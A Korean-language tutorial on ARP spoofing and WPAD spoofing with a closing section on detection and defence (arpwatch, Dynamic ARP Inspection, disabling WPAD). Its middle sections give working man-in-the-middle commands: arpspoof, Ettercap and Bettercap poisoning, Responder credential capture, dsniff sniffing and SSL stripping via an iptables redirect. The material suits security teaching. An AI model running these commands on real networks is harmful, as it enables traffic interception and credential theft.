

## 1. 개요

**ARP Poisoning**은 로컬 네트워크(L2) 환경에서 공격자가 자신의 MAC 주소를 게이트웨이 또는 다른 호스트의 IP 주소로 위장하는 공격 기법이다.
이 공격은 네트워크 트래픽을 가로채는 중간자 공격(MITM)의 기초 단계로, 암호화되지 않은 데이터를 도청하거나 트래픽을 조작하여 피싱 사이트로 유도하는 등 심각한 2차 피해를 유발할 수 있다.
본 글에서는 ARP Spoofing과 이를 활용한 WPAD Spoofing 공격의 원리를 분석하고, 실제 공격 도구 활용법과 이에 대한 탐지 및 방어 전략을 다룬다.

---

## 2. ARP Spoofing 실습

### 공격 흐름



### Kali Linux에서 arpspoof 사용
```bash
# 1. IP 포워딩 활성화 (트래픽 중계 설정)
echo 1 > /proc/sys/net/ipv4/ip_forward

# 2. ARP Poisoning 시작
# 피해자에게 "나는 게이트웨이다" 위장
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 게이트웨이에게 "나는 피해자다" 위장 (양방향 트래픽 획득)
arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

### Ettercap 사용
```bash
# CLI 모드 실행
ettercap -T -q -i eth0 -M arp:remote /192.168.1.100// /192.168.1.1//
```

### Bettercap 사용
```bash
bettercap -iface eth0
> net.probe on
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
> net.sniff on
```

---

## 3. WPAD Spoofing 공격

### 공격 원리
**WPAD (Web Proxy Auto-Discovery)**는 브라우저가 프록시 설정을 자동으로 찾도록 돕는 프로토콜이다. 공격자는 이를 악용하여 피해자의 모든 웹 트래픽이 자신의 프록시 서버를 경유하도록 만들 수 있다.

1.  클라이언트가 DHCP/DNS를 통해 WPAD 서버를 검색한다.
2.  공격자가 가짜 WPAD 서버로 응답한다.
3.  피해자에게 악성 PAC(Proxy Auto-Configuration) 파일을 제공한다.
4.  피해자의 브라우저는 공격자가 지정한 프록시 서버를 통해 인터넷에 접속하게 된다.

### Responder 사용
Responder 툴을 이용하면 WPAD 요청에 자동으로 응답하여 인증 정보를 탈취하거나 프록시 설정을 배포할 수 있다.

```bash
# WPAD, LLMNR, NBT-NS Spoofing
responder -I eth0 -wrf
```

---

## 4. 공격 심화: Sniffing & SSL Strip

ARP Spoofing으로 트래픽 흐름을 확보했다면, 이제 실제 데이터를 가로채거나 조작할 수 있다.

### HTTP 패킷 캡처
```bash
# 평문 자격 증명 캡처
dsniff -i eth0

# HTTP 요청 URL 실시간 덤프
urlsnarf -i eth0
```

### SSL Strip
HTTPS 트래픽을 HTTP로 강제 다운그레이드하여 암호화된 통신을 평문으로 도청하는 기법이다.

```bash
# 1. iptables로 80포트 트래픽을 sslstrip 포트로 리다이렉트
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

# 2. sslstrip 실행 (10000 포트 리스닝)
sslstrip -l 10000
```

---

## 5. 보안 대책

### 탐지 방법
*   **ARP 테이블 모니터링**: 주기적으로 `arp -a` 명령어를 실행하여 동일한 MAC 주소를 가진 IP가 여러 개 존재하는지 확인한다.
*   **전문 도구 사용**: `arpwatch`, `XArp` 와 같은 도구를 사용하여 ARP 변경 이벤트를 실시간으로 감지한다.

### 방어 방법
*   **Static ARP**: 중요한 서버나 게이트웨이의 MAC 주소를 호스트에 정적으로 등록하여 변조를 막는다. (관리가 어려움)
*   **DAI (Dynamic ARP Inspection)**: 스위치 단에서 신뢰할 수 없는 포트의 ARP 패킷을 검사하고 차단하는 가장 효과적인 방법이다.

#### Cisco 스위치 DAI 설정 예시
```cisco
Switch(config)# ip arp inspection vlan 10
Switch(config)# interface g0/1
Switch(config-if)# ip arp inspection trust
```
*   `trust`: 업링크 포트 등 신뢰할 수 있는 포트에 설정
*   `untrusted` (기본값): 일반 사용자 포트, ARP 패킷 검사 수행

### WPAD 비활성화
불필요한 경우 로컬 PC에서 WPAD 기능을 비활성화하여 공격 표면을 제거한다.

```powershell
# Windows PowerShell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Wpad" -Name "WpadOverride" -Value 1
```

<hr class="short-rule">
